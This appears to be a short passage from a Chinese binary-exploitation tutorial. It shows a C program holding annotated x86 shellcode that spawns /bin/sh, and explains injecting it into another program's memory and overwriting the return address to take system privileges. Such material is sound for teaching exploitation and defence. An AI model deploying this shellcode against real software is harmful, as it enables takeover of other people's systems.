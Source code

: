 sample9.c的代码：

```c
unsigned char shellcode[] = {
    0x31, 0xc0,                      // xor %eax, %eax
    0x50,                            // push %eax
    0x89, 0xe0,                      // mov %esp, %eax
    0x83, 0xe8, 0x10,                // sub $0x10, %eax
    0x50,                            // push %eax
    0x89, 0xe3,                      // mov %esp, %ebx
    0x31, 0xc0,                      // xor %eax, %eax
    0x50,                            // push %eax
    0x68, 0x2f, 0x2f, 0x73, 0x68,    // push $0x68732f2f
    0x68, 0x2f, 0x62, 0x69, 0x6e,    // push $0x6e69622f
    0x89, 0xe2,                      // mov %esp, %edx
    0x31, 0xc0,                      // xor %eax, %eax
    0x50,                            // push %eax
    0x53,                            // push %ebx
    0x52,                            // push %edx
    0x50,                            // push %eax
    0xb0, 0x3b,                      // mov $0x3b, %al
    0xcd, 0x80,                      // int $0x80
};

int main(void)
{
    void (*p)(void);
    p = (void(*)())shellcode;
    p();
    return 0;
}
```

![Alt text](/img/interestingBin/1489145641910.png)

shellcode完成，可在`exploit.py`使用

将这段代码插入到sample3的内存空间，然后将返回地址改为shellcode的起始地址，就可以夺取系统权限。

